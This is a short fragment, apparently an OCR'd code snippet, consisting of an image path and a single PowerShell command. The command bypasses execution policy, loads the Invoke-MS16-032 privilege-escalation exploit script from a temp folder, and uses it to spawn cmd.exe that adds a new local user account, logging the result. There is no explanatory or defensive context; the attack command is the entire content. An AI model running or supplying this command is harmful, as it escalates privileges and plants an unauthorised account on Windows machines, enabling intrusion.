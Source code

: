 powershell.exe -exec bypass -Command "& {Import-Module C:\windows\temp\Invoke-MS16-032.ps1;Invoke-MS16-032 -Application cmd.exe -Commandline '/c net user 1 1 / add'}" > C:\windows\temp\Invoke-MS16-032.log
